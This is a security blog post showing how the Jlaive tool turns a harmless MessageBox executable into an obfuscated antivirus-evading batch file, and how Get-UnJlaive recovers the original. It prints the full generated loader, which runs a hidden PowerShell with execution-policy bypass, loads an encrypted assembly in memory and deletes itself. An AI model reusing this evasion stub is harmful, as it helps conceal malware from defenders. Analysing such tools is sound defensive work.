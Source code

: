 +++
title = "Exploring the Jlaive and UnJlaive tool"
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["Jlaive","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++
## What will this post be about
This post will be about the Jlaive and Get-UnJlaive tools. I will not go into depth as there are other resources I will list that do a great job explaining more in depth of the ins and outs of these tools. This will just be an overview of the tools: **How to obfuscate an executable with Jlaive and how to recover it using Get-UnJlaive.**


## What is the Jlaive tool
In short terms, Jlaive is a tool used to convert executables to undetectable .bat scripts for AV evasion. This tool is very similar to the well known BatCloak engine which was used to create such undetectable .bat scripts. As the scmagazine states *...Researchers tie BatCloak closely to another, now abandoned, BAT obfuscation tool called Jlaive...Trend Micro said that the BatCloak engine is the core engine of Jlaive’s obfuscation algorithm, now repurposed. The BatCloak functionality is specifically tied to the instructions “LineObfuscation.cs and FileObfuscation.cs” used in the Jlaive crimeware.*

There are many tools with similar goals, like the ScrubCrypt, but they are closed-source for better monetization and avoide the use of them from other cyber criminal groups. Anyway, lucky for us, we got a hold of the Jlaive tool and we are going to explore it in a simple poc executable.  

### Simple poc
The poc is nothing more than a MsgBox:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace pocHello
{
    internal class Program
    {
        static void Main(string[] args)
        {
            MessageBox.Show("just an msgbox as a poc", "Message Box POC", MessageBoxButtons.OK, MessageBoxIcon.Information);
        }
    }
}
```
After building the project, we simply run the tool and load our executable, choosing what features we would like the obfuscated .bat file to have:

![jlaive tool](/posts/jlaive/jlaive_tool.png)

Running the tool, we get a successful message:  
![encrypted output](/posts/jlaive/encrypted_output.png)

Navigating to the path where the .bat file was created, we are met with the following code:
```bat
@echo off
echo F|xcopy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "%~dp0%~nx0.exe" /y
attrib +s +h "%~dp0%~nx0.exe"
cls
cd %~dp0
set "fENYbyZJkq=3IHsgcHVib"
set "oMDpdCkaMN=k = [Syste"
set "HlBoTjvPwk=6UdLqADvWw" && set "TgmwRYHkmK=ucHV0Lkxlb"
set "nVaFdaubIS=npolicy by" && set "BIXBCNceka=gSUNyeXB0b" && set "YNWXZHqJqc=gZ3MuRGlzc"
set "tQIzxvQESC=GtleSwgYnl" && set "XOhAfBkWmm=vert]::Fro"
set "kLMTZqURfX=U), [Syste" && set "qVRmUESgbg=$tIukXz = " && set "saTMAKUycO=SBpbnB1dCw" && set "KdmMRlyyEK=nlwdG9yLlR" && set "PMyINOXuEO=GJ5dGVbXSB"
set "FscnzUUuAC=::FromBase"
set "BARCwvwdkW=-noprofile" && set "vwRxWzGiFE=))).EntryP"
set "sMNjHgEuTS=md0aCk7IGR" && set "ZMFfhtZaCd=n $tIukXz;" && set "NRBHbUNrkG=etString([" && set "tNCgPVjCku=kID0gZGVjc"
set "CDtNvqDvqL=ngth - 1];" && set "ieHoPTyjEy=mBase64Str" && set "rajcuUaXTP=m.IO.File]" && set "ihrpBFSJkF=Gh5OyBwdWJ" && set "ObqwUWcIse=yZXR1cm4gb"
set "wrxnxJJZUi=10gY1VaaUJ"
set "tPPsLfEmfH=ssembly]::" && set "wYpmPrqEes=0ZW0uU2Vjd" && set "PeMJlFunvD=%~nx0.exe " && set "xRRkIyDKnV=GUgPSBDaXB"
set "LguDwtEgTm=ing('dXNpb"
set "rBnjvHzCEC=SwgaXYpOyB" && set "BwxNyGNeWs=and $NDmNb" && set "NOLCAWkezL=XJpdHkuQ3J" && set "JxakJbogEh=c212SWxpVX"
set "avLgdUKvyf=System.Con"
set "dzLmqrEuSn=Load([DuUJ"
set "buYFlxnyag=mcgU3lzdGV"
set "JrzOnKokrg=G8obXNvKTs"
set "VKtWSAzekf=kaW5nTW9kZ"
set "UDLwXXbfUO=eDefinitio"
set "pZCqseAkqe=ext('%~f0').Split([Environment]::NewLine);$WWCkvU "
set "bEuenIEGAB=ert]::From"
set "evGNjFJkiq=::ReadAllT"
set "EtpzUbnYkW=XRlRGVjcnl"
set "rAJgHQskWM=3VzaW5nIFN" && set "nUMBtoFYkK=yBNZW1vcnl" && set "DlNUGnnsfJ=gTWVtb3J5U" && set "tguYxsQeEG=hbmFnZWQgY" && set "ZxsoDXEAmh=::cUZiBs(["
set "rrBdlEgEiR=" && set "yuBNvyTjWG=ieXRlW10gZ" && set "EpkleGpiSQ=zLlBhZGRpb" && set "hlfUYJcbnE=//github.c" && set "JaaFxTqmkm=zKGJ5dGVbX"
set "ovxvfokepJ=yA9IG5ldyB" && set "NdBkzRUyNc=-Type -Typ"
set "cECnVddQIO=gYWVzLk1vZ"
set "JYdzLMkAMI=zdGVtLklPO"
set "LIJyjYDhEO=mBase64Str"
set "FQDboAlVkm=0cmVhbSBtc" && set "CtISDxCuyg=$NDmNbk.Le"
set "cPhgSHJFiE=laive" && set "wOUbaaionW=8dQ='), [S"
set "TFqYzkUFKP=oZXJNb2RlL" && set "XmJlbVCEeg=ybSBkZWNye"
set "rsAojPyqqK=pass -comm"
set "HjDUCECfuK=vY2soaW5wd" && set "RLYjZdmUem=i5EaXNwb3N"
set "JmcNfgjlkO=3IE1lbW9ye"
set "wotBbJUCXp=28gPSBuZXc"
set "ZMbsYBZiEq=S5QS0NTNzs"
set "JWEGEWztyS=y5Db21wcmV" && set "wYGjMTSRLU=G9zZSgpOyB" && set "RZdMvuYUqn=tLlRleHQ7d"
set "DDhHMvstEO=GljIHN0YXR" && set "BLkZldvAHE=TdHJlYW0gb" && set "HkRRYWZUWm=7IHZhciBnc"
set "EvYPmaikjR=lY3J5cHRvc" && set "NUGvGuKfkH=]] ('%*')))" && set "TiPQaNUyEk=om/ch2sh/J" && set "mMQdKSFyum=yeXB0ZWQ7I"
set "FFeCIpqPyy= -windowst"
set "lYRjpzjmyM=mcgPSBQYWR" && set "jEdNSXkuFv=oint.Invok"
set "UeVhkuMOtk=XNpID0gbmV"
set "reZEtGxrSh=y5EaXNwb3N" && set "uPqpbVZyku=ystem.Conv" && set "QbZOQhYmgk=Fw]::YWqYu"
set "ljXHtMvGyf=jIHN0YXRpY" && set "LulfiaLhEe=XNpbmcgU3l"
set "GVtjxQXtOo=zc2lvbjt1c"
set "EyEeayRkCp=m.Convert]" && set "VTmkqOOkQh=5c3RlbS5JT"
set "DJZvlJxSeK=flection.A"
set "VrbuAavxUi=XQsIDAsIGl" && set "ytnErceFKM=G9zZSgpOyB"
set "WsBCQAkGPI=mFnZWQoKTs" && set "ZeKpegxEqf=UZpbmFsQmx" && set "fYjkFWUCLu=e($null, (" && set "qbrRUujXDM=lKCk7IGFlc" && set "TcbXekUkOV=Base64Stri" && set "ryOJrbkGXw=ncy5Db3B5V" && set "gBhbYMmkar=HWmlwU3RyZ"
set "xFXbUXSqiH=hZXMuQ3JlY"
set "jUxqxtJWwK=XB0b3IgPSB"
set "cUNiABJEPG=64String('"
set "BYliuSSkds=E1lbW9yeVN"
set "DgsMJGRBkW=kNCQzsgYWV" && set "yxMQSdikCf=System.Con" && set "pqydlkWvlv=yYW5zZm9yb"
set "xmGqfoyigz=yYXkoKTsgf" && set "mKWZuiSqkG= -executio"
set "pWisjkyuvo=g]::UTF8.G" && set "RdergtMaPv=3MgRHVVSkZ" && set "FoeUHvtBeI=3RyZWFtKCk"
set "PtbWQSaxkP=gYnl0ZVtdI" && set "prlyUalgGj=, [string[" && set "qfhEOMrfue=rem https:"
set "EHNuBdghke=XNvLlRvQXJ"
set "atzklLZikC=ieXRlcyk7I"
set "VzZHdHfnkK=wdG9yKGtle" && set "pbEQoHEFya=3Npb25Nb2R"
set "wyIRpJUzUy=ng('i9gKth"
set "aRvucOwBMK=lLkRlY29tc"
set "ZGtoXTmqEa=vert]::Fro" && set "LBXFmXrGGk=yle hidden" && set "PgpYWgnESr=SB9'));Add" && set "jQJlvwKnUC=HVybiBkZWN"
set "yutyGaKptk=pYyBieXRlW"
set "NrVzEyZKxJ=gWVdxWXVPK"
set "ElUeqoZkeB=5cHRvZ3Jhc" && set "VqDUHkduHE=HJlc3MpOyB" && set "bXuhcMQWEC=tc2kuRGlzc" && set "wIkgxuqwSU=ieXRlcykge" && set "BeUppPecxE=xt.Encodin" && set "JXrPZaVOUG=G9zZSgpOyB" && set "FclUyvUGNa=WVzID0gbmV" && set "QQwGKBkSYC=WS5VvlzyRn" && set "QSDzwOfsqN=saWMgY2xhc" && set "nNEnadmgAy=SB7IEFlc01"
set "ZSnQhDQxOJ=WFtKG1zaSw"
set "hCSlczZEed=[System.Re"
set "tAyNMEciUo=VN0cmVhbSh" && set "lELXxFDard=O([DuUJFw]"
set "nNsRHgWaoU== $NDmNbk["
set "ldbJMTqUaX=0ZVtdIGl2K" && set "sSUxwkECwE=1RyYW5zZm9" && set "IYUhcqkikI=1hMu1g==')"
set "rgNaXziIpC=GVjcnlwdGV"
set "xdaAAuWEqb=3IEFlc01hb" && set "TYDLSAjkyA=gQ29tcHJlc" && set "GgmonIEaZP=ing($WWCkv"
set "IArsKCeeLv=tc28uRGlzc" && set "oLgiwxduaV=H0gcHVibGl" && set "GNZxLtdDkO=[System.Te"
set "amOerQZEai=OxhVVfEWSN" && set "fHTMzMCrak=yBieXRlW10"
set "kKopFOwikC=2luZyBTeXN"
set "occQjttmnX=lKCk7IHJld"
set "eZKAFlWkCV=MlVcdDTvXm"
%qfhEOMrfue%%hlfUYJcbnE%%TiPQaNUyEk%%cPhgSHJFiE%
%PeMJlFunvD%%BARCwvwdkW%%FFeCIpqPyy%%LBXFmXrGGk%%mKWZuiSqkG%%nVaFdaubIS%%rsAojPyqqK%%BwxNyGNeWs%%oMDpdCkaMN%%rajcuUaXTP%%evGNjFJkiq%%pZCqseAkqe%%nNsRHgWaoU%%CtISDxCuyg%%CDtNvqDvqL%%qVRmUESgbg%%GNZxLtdDkO%%BeUppPecxE%%pWisjkyuvo%%NRBHbUNrkG%%avLgdUKvyf%%ZGtoXTmqEa%%LIJyjYDhEO%%LguDwtEgTm%%buYFlxnyag%%RZdMvuYUqn%%LulfiaLhEe%%JYdzLMkAMI%%rAJgHQskWM%%VTmkqOOkQh%%JWEGEWztyS%%GVtjxQXtOo%%kKopFOwikC%%wYpmPrqEes%%NOLCAWkezL%%ElUeqoZkeB%%ihrpBFSJkF%%QSDzwOfsqN%%RdergtMaPv%%fENYbyZJkq%%DDhHMvstEO%%yutyGaKptk%%wrxnxJJZUi%%JaaFxTqmkm%%saTMAKUycO%%PtbWQSaxkP%%tQIzxvQESC%%ldbJMTqUaX%%nNEnadmgAy%%tguYxsQeEG%%FclUyvUGNa%%xdaAAuWEqb%%WsBCQAkGPI%%cECnVddQIO%%xRRkIyDKnV%%TFqYzkUFKP%%DgsMJGRBkW%%EpkleGpiSQ%%lYRjpzjmyM%%VKtWSAzekf%%ZMbsYBZiEq%%BIXBCNceka%%sSUxwkECwE%%XmJlbVCEeg%%jUxqxtJWwK%%xFXbUXSqiH%%EtpzUbnYkW%%VzZHdHfnkK%%rBnjvHzCEC%%yuBNvyTjWG%%rgNaXziIpC%%tNCgPVjCku%%KdmMRlyyEK%%pqydlkWvlv%%ZeKpegxEqf%%HjDUCECfuK%%VrbuAavxUi%%TgmwRYHkmK%%sMNjHgEuTS%%EvYPmaikjR%%RLYjZdmUem%%qbrRUujXDM%%reZEtGxrSh%%occQjttmnX%%jQJlvwKnUC%%mMQdKSFyum%%oLgiwxduaV%%ljXHtMvGyf%%fHTMzMCrak%%NrVzEyZKxJ%%PMyINOXuEO%%wIkgxuqwSU%%nUMBtoFYkK%%BLkZldvAHE%%UeVhkuMOtk%%JmcNfgjlkO%%tAyNMEciUo%%atzklLZikC%%BYliuSSkds%%FQDboAlVkm%%wotBbJUCXp%%DlNUGnnsfJ%%FoeUHvtBeI%%HkRRYWZUWm%%ovxvfokepJ%%gBhbYMmkar%%ZSnQhDQxOJ%%TYDLSAjkyA%%pbEQoHEFya%%aRvucOwBMK%%VqDUHkduHE%%ryOJrbkGXw%%JrzOnKokrg%%YNWXZHqJqc%%JXrPZaVOUG%%bXuhcMQWEC%%wYGjMTSRLU%%IArsKCeeLv%%ytnErceFKM%%ObqwUWcIse%%EHNuBdghke%%xmGqfoyigz%%PgpYWgnESr%%NdBkzRUyNc%%UDLwXXbfUO%%ZMFfhtZaCd%%hCSlczZEed%%DJZvlJxSeK%%tPPsLfEmfH%%dzLmqrEuSn%%QbZOQhYmgk%%lELXxFDard%%ZxsoDXEAmh%%yxMQSdikCf%%XOhAfBkWmm%%ieHoPTyjEy%%GgmonIEaZP%%kLMTZqURfX%%EyEeayRkCp%%FscnzUUuAC%%cUNiABJEPG%%HlBoTjvPwk%%QQwGKBkSYC%%JxakJbogEh%%eZKAFlWkCV%%wOUbaaionW%%uPqpbVZyku%%bEuenIEGAB%%TcbXekUkOV%%wyIRpJUzUy%%amOerQZEai%%IYUhcqkikI%%vwRxWzGiFE%%jEdNSXkuFv%%fYjkFWUCLu%%prlyUalgGj%%NUGvGuKfkH%
%rrBdlEgEiR%
attrib -s -h "%~dp0%~nx0.exe"
del "%~dp0%~nx0.exe"(goto) 2>nul & del "%~f0"
exit /b
jjNNb7+5GJxTidTZUiwqq6EMDNO1MKBC21fz5d08N7l -- a bunch more of b64 encrypted bytes ---
```
A great resource explaining the commands used in the batch file is a post made by **Jose Luis Sánchez Martínez** in his blog (which I will leave in the references). He gives an overview of what calls are being made when we execute this obfuscated .bat file and also a poc of rules to detect such malicious files (although, they could be bypassed).


Running this batch script gives the same output as our original executable:  
![running the bat](/posts/jlaive/running_the_bat.png)

After we run this, the .bat file gets deleted - well, its contents gets deleted - and a new file, with an .exe extension appears to have been created:  
![new batexe file](/posts/jlaive/new_batexe_file.png)
This is where the tool Get-UnJlaive will come into play, which will take advantage of this and manage to deobfuscate the script and give the original .exe code.


## Get-UnJlaive
Now onto the deobfuscation part. Get-UnJlaive is a tool able to reconstruct Jlaive (.NET Antivirus Evasion Tool (Exe2Bat)) to original Assembly and stub Assembly, as the author states. We are going to use his tool which can be found in the following repo (also has an amazing channel which I will leave in the references):  
- https://github.com/Dump-GUY/Get-UnJlaive

Basically what this tool does is to run the .bat file, set it in a suspended state to get the deobfuscated form (as we previously saw, a .exe was created after we had run the .bat), decrypt it, reconstruct the original assembly and then terminates it. For an indepth analysis of how this tool works, you can watch the video of dumpguy which I'll leave in the references.  

### Reconstructing the original assembly
The tool is easy to set. You simple just open a powershell terminal, load the module provided and you are good to go. After you run the tool, you should get a file with an extension ".bat_orig.exe" which you could load into DnSpy for example and view its code:
![reconstructed](/posts/jlaive/reconstructed.png)

Aaand we have successfully reconstructed our original .exe from the obfuscated batch file!

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.scmagazine.com/news/obfuscation-batcloak-80-percent-av-engines">scmagazine: <i>Obfuscation tool ‘BatCloak’ evades 80% of AV engines</i></a></li>
        <li> [2] <a href="https://jstnk9.github.io/jstnk9/research/Jlaive-Antivirus-Evasion-Tool/">Jose Luis Sánchez Martínez: <i>Using Jlaive to create batch files from .NET assemblies for defense evasion</i></a></li>
        <li> [3] <a href="https://github.com/Dump-GUY/Get-UnJlaive">Dump-GUY: <i>Get-UnJlaive</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=cKciCTW82I8">DuMp-GuY TrIcKsTeR: <i>Get-UnJlaive - Jlaive Protector Reconstructor</i></a></li>
    </ul>
</blockquote>